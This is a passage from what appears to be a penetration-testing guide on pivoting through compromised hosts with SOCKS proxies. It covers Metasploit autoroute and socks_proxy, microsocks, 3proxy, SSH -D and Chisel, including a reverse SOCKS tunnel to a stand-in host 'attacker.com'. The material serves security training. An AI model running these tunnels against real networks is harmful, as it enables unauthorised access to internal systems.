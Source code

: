 ```bash
run autoroute -s 192.168.1.0/24            # Add route through session
background                                  # Background the session

# Start SOCKS proxy module
use auxiliary/server/socks_proxy
set SRVPORT 1080
run -j                                      # Run as background job

# Method 4: Standalone SOCKS proxy servers
# Using microsocks (lightweight SOCKS5 server)
git clone https://github.com/rofl0r/microsocks.git
cd microsocks
make
./microsocks -i 127.0.0.1 -p 1080          # SOCKS5 server on localhost:1080

# Using 3proxy
3proxy /etc/3proxy/3proxy.cfg               # Full-featured proxy server

# SOCKS proxy authentication
# SSH with authentication
ssh -o PreferredAuthentications=password -D 1080 user@pivot.com

# Chisel with authentication
./chisel server --port 8080 --auth user:pass --socks5
./chisel client --auth user:pass attacker.com:8080 R:socks

# SOCKS proxy testing and validation
# Test SOCKS connectivity
curl --socks5 localhost:1080 http://ipinfo.io # Test external connectivity
curl --socks5 localhost:1080 http://192.168.1.100 # Test internal connectivity

# Browser configuration for SOCKS proxy
# Firefox: Network Settings -> Manual proxy -> SOCKS Host: localhost, Port: 1080
# Chrome: --proxy-server="socks5://localhost:1080"

# Command-line tools with native SOCKS support
curl --socks5 localhost:1080 http://target.com
wget --proxy=on --socks-proxy=localhost:1080 http://target.com
nmap --proxies socks4://localhost:1080 target.com

# Why SOCKS proxies are fundamental to pivoting:
# - Protocol-agnostic traffic forwarding
# - Support for both TCP and UDP
# - Works with most network applications
# - Provides centralized pivot point management
# - Enables complex network routing scenarios
```

## Port Forwarding and Tunneling Tools
